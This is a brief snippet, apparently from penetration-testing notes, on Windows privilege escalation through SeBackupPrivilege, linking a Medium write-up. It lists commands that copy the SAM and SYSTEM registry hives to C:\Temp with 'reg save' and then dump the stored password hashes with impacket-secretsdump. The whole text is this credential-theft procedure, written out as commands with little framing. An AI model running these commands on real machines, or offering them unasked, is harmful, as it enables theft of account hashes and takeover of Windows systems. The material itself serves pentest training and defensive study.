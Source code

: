 
- [Make copy](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960) of the SAM and SYSTEM files

```
cd c:\
mkdir Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

-Dump the secrets with impacket: 

```
impacket-secretsdump -system SYSTEM -sam SAM local
```

